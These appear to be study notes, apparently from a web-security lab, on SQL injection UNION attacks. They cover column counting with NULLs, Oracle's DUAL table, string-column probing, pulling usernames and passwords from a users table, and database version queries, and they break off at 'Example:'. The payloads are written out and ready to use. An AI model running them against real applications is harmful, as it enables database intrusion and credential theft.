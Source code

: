 
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

When use the UNION not have the right number of columns, cause internal server error, when work, 200 OK


## Database-specific syntax

There are built-in table, example is table 'dual' in Oracle, we can use it for UNION ATTACK

' UNION SELECT NULL FROM DUAL--

## Extract datatype compatible with specific columns

`GET /filter?category='UNION+SELECT+NULL,'OJg7mW',NULL--`

=> Then we know that columns 2 is compatibale with the string 

Oracle: cause of every SELECT query need to use FROM clause:

`'UNION+SELECT+NULL,NULL+FROM+dual--`

## Retrieving interest data with UNION

When we know the number of columns returned by the original query, and know which columns can hold string data, we 
can retrieve interesting data

Suppose:
`SELECT id, name FROM employees WHERE name = 'input_here';`

Payload:
`' UNION SELECT username, password FROM users--`


## Examining database in SQLi

GOALS:
	- The type and version of the database software.
	- The tables and columns that the database contains.

| Database Type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |


Example:
